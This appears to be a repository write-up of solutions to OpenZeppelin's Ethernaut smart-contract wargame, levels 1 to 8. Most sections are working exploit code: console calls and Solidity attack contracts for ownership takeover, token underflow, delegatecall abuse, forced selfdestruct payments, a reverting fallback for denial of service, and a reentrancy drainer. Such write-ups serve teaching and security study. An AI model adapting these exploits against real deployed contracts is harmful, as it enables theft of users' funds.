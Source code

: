 # Solutions of OpenZeppelin's Ethernaut Challenges

## 1. Fallback

```
await contract.contribute({value: 1337 });
await contract.sendTransaction({value: 1337});
contract.withdraw();
```

## 2. Fallout

The problem here is that the contructor is misspelled.
Therefore, the function *Fal1out* can be called from another contract for claiming the target contract.

```
await contract.Fal1out({value: 1337});
contract.sendAllocation(await contract.owner());
```

## 3. Token

Here we are dealing with an integer overflow issue in the require statement of the transfer function. This statement is always true, because both data types are defined as uint:

```
 require(balances[msg.sender] - _value >= 0);
```

 Therefore, we are able to get (a lot of) tokens for free when sending tokens to an arbitrary address:

 ```
 await contract.balanceOf(web3.eth.defaultAccount); // 20
 await contract.transfer("0x7e260279a09fca029471185995c29dd7b293921f", 1337);
 await contract.balanceOf(web3.eth.defaultAccount); // much much more than 20 :)
```

## 4. Delegation

We are using the fallout function to delegate call to *pwn()*, which sets the msg.sender (attacker's wallet address) to owner.

 ```
 web3.sha3("pwn()");
 > "0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"
 //effectively the first four bytes are: 0xdd365b8b

 await contract.sendTransaction({ data:"0xdd365b8b" });
```

## 5. Force

```
pragma solidity ^0.4.20;

contract Force {

 function Force() public payable {}

 function exploit(address _target) public {
    //_target address, which will receive Ethers
    selfdestruct(_target);
 }
}
```

## 6. King

The idea here is to create a contract with a reverting fallback function.

```
pragma solidity ^0.4.20;

contract King {

function King() public {}

function takeover(address _target) public payable {
//target King contract
_target.call.value(msg.value)();
}

function() public payable {
    revert();
}
```

## 7. Reentrancy

In memory of the good old DAO hack, we need to determine in which "recursion depth" we are (here variable *exploited* is used):

```
contract ExploitReentrancy {

  uint donated;
  Reentrance target;
  bool exploited = false;

  function ExploitReentrancy(address _target) public payable {
      target = Reentrance(_target);
      donated = msg.value;
      target.donate.value(msg.value)(address(this));
  }

  function exploit() public {
      target.withdraw(donated);
  }

  function() public payable {
    if (!exploited) {
        exploited = true;
        if (donated > target.balance) {
            target.withdraw(donated);
        } else {
            target.withdraw(target.balance);
        }
    }
  }

}
```

## 8. Elevator
The view modifier is not verified by the solidity compiler, therefore we can still change the state.

```
pragma solidity ^0.4.18;

interface Building {
  function isLastFloor(uint) view public returns (bool);
}

contract MalBuilding is Building {
  bool called = false;

  function isLastFloor(uint _floor) view public returns (bool) {
      //this contract works only once, but is sufficient for solving this excercise :)
      bool previous = called;
      called = true;
      return previous;
  }

  function exploit(address _target) public payable {
      Elevator elevator = Elevator(_target);
      elevator.goTo(1);
  }
}

contract Elevator {
  function goTo(uint _floor) public;
}
```
